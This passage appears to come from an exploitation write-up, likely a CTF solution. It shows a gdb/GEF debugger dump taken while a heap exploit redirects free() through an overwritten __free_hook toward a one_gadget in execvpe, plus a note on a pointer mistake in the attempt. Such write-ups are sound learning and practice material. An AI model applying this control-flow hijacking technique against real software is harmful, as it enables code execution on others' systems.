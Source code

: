 ```c
$rcx   : 0x00007f776fd53fb2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x2f
$rsp   : 0x00007fff3250f9f8  →  0x00007f776fe38376  →  0x4d8b4800000000b8
$rbp   : 0x00007fff3250fa20  →  0x0000000000000000
$rsi   : 0x00007f776fe38376  →  0x4d8b4800000000b8
$rdi   : 0x0000555555fa05b0  →  0x0a65657266206200
$rip   : 0x00007f776fce08f1  →  <free+161> jmp rax
$r8    : 0x0000555555fa05b0  →  0x0a65657266206200
$r9    : 0x00007f776fc4a548  →  0x0000000000000000
$r10   : 0x00007f776fe2ebe0  →  0x0000555555fa05e0  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x00007f776fe38150  →  0x8949ed31fa1e0ff3
$r13   : 0x00007fff3250fb08  →  0x000000000000001c
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
 stack 
0x00007fff3250f9f8│+0x0000: 0x00007f776fe38376  →  0x4d8b4800000000b8    ← $rsp
0x00007fff3250fa00│+0x0008: 0x00007f776fe31b28  →  0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
0x00007fff3250fa08│+0x0010: 0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
0x00007fff3250fa10│+0x0018: 0x0000555555fa05b0  →  0x0a65657266206200
0x00007fff3250fa18│+0x0020: 0xececd8c03b604200
0x00007fff3250fa20│+0x0028: 0x0000000000000000   ← $rbp
0x00007fff3250fa28│+0x0030: 0x00007f776fc6a0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fff3250fa30│+0x0038: 0x0000000000000000
 code:x86:64 
   0x7f776fce08e5 <free+149>       nop    DWORD PTR [rax]
   0x7f776fce08e8 <free+152>       mov    rsi, QWORD PTR [rsp+0x18]
   0x7f776fce08ed <free+157>       add    rsp, 0x18
 → 0x7f776fce08f1 <free+161>       jmp    rax
   0x7f776fce08f3 <free+163>       nop    DWORD PTR [rax+rax*1+0x0]
   0x7f776fce08f8 <free+168>       cmp    QWORD PTR [rip+0x151279], rsi        # 0x7f776fe31b78
   0x7f776fce08ff <free+175>       ja     0x7f776fce090a <free+186>
   0x7f776fce0901 <free+177>       cmp    QWORD PTR [rip+0x151268], rsi        # 0x7f776fe31b70
   0x7f776fce0908 <free+184>       ja     0x7f776fce08cb <free+123>
 threads 
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x7f776fce08f1 in free (), reason: SINGLE STEP
 trace 
[#0] 0x7f776fce08f1 → free()
[#1] 0x7f776fe38376 → mov eax, 0x0
[#2] 0x7f776fe31b28 → __after_morecore_hook()
[#3] 0x555555fa02a0 → out 0x9c, al
[#4] 0x555555fa05b0 → add BYTE PTR [rdx+0x20], ah

gef➤
```
`gdb`'s paused here at the jump to `__free_hook`. There's been a slight error in logic, here: instead of jumping to `<execvpe+1142>` (a one_gadget), `__free_hook` is causing the program to jump to a *pointer to* the one_gadget, which is naturally non-executable.
